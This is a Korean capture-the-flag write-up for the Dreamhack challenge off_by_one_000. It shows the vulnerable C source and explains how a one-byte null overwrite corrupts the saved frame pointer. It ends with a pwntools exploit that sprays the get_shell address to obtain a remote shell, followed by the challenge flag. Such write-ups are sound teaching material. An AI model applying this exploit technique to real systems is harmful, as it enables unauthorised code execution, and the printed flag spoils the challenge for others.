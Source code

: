 ```yaml
---
layout: post
title: dreamhack wargame off_by_one_000 write-up
---
```


<br>
문제는 [dreamhack](https://dreamhack.io/wargame/challenges/9/)에서 받으실 수 있습니다.

----

<br>
{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[256];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name)); //FPO 취약점 발생

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}
{% endhighlight %}

메인에서 read 함수를 통해 cp_name에 sizeof로 사이즈를 정해주고 입력을 받는다.<br>
그러나 입력을 받을 때 마지막에 널 문자를 자동으로 넣어주기 때문에 sizeof(cp_name - 1) 이렇게 입력을 받았어야 한다.
<br>그러니 FPO취약점이 존재한다. 익스플로잇을 해보자.
<br>
<br>
FPO기법으로 인해 cpy함수의 SFP의 1byte가 NULL 바이트로 변조된다.

<br>
<br>
<br>
gdb를 통해 SFP가 어떻게 변조되는지 확인해보자.
![img1](/assets/img3.png)

cp_name의 변수 위치는 ebp - 0x100이다.<br>
ebp - 0x100의 주소 값을 확인해보자.

![img2](/assets/img4.png)
이제 cp_name 변수의 끝 부분이 NULL Byte(\x00)로 잘 변조되었는지 확인해보자.
![img3](/assets/img5.png)
0xffffd490의 값이 0xffffd400으로 변조되었다.<br>
<br>
이제 0xffffd400을 get_shell 함수의 주소로 바꿔주기만 하면 되는데<br>
주소를 완벽하게 찾아갈 필요 없이 cp_name을 모두 get_shell 함수의 주소로 바꿔주기만 하면 쉘이 실행될 수 있다.
<br><br>
get_shell 함수의 주소를 알아보자.
![img4](assets/img6.png)
이제 공격 코드를 짜 보자.

{% highlight python linenos %}
from pwn import *

p = remote('host1.dreamhack.games','19249')
#p = process('./off_by_one_000')

payload = '\xdb\x85\x04\x08' * (256 / 4)

p.sendline(payload)
p.interactive()
{% endhighlight %}

![img5](/assets/img7.png)
성공적으로 쉘을 획득했다.
<br>
FLAG : DH{fef043d0dbe030d01756c23b78a660ae}
